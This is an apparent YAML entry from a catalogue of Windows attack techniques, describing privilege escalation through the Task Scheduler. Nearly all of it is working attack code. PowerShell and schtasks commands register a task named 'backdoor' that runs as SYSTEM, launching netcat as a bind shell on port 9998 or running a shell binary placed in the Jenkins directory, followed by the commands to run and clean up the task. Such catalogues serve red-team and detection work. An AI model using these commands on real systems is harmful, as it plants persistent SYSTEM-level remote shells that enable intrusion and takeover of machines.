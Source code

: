 ```yaml
---
functions:
  privilege-escalation:
    - description: Use Windows Scheduler to elevate permissions to SYSTEM via a backdoor
      code: |
        Unregister-ScheduledTask -TaskName "backdoor"
        $filepath = "C:\users\admin\documents\nc.exe"
        $port = "9998"
        $taskname = "backdoor"
        $time = "1:57"
        $action = New-ScheduledTaskAction -Execute $filepath -argument "-l -p $port -e cmd.exe"
        $trigger = New-ScheduledTaskTrigger -At $time -Once
        $principal = New-ScheduledTaskPrincipal -UserId 'NT AUTHORITY\SYSTEM' -RunLevel Highest
        $settings = New-ScheduledTaskSettingsSet
        $task = New-ScheduledTask -Action $action -Principal $principal -Trigger $trigger -Settings $settings
        Register-ScheduledTask $taskname -InputObject $task


        View task:
        Get-ScheduledTask -TaskName backdoor

        Run Task:
        Start-ScheduledTask -TaskName backdoor


        schtasks /CREATE /RU "NT AUTHORITY\SYSTEM" /SC once /TR "C:\Program Files (x86)\Jenkins\shell.exe" /ST 01:57 /TN backdoor /RL HIGHEST /F
        schtasks /QUERY /TN backdoor
        schtasks /RUN /TN backdoor
        SCHTASKS /Delete /TN backdoor /F


resources : |

---
```


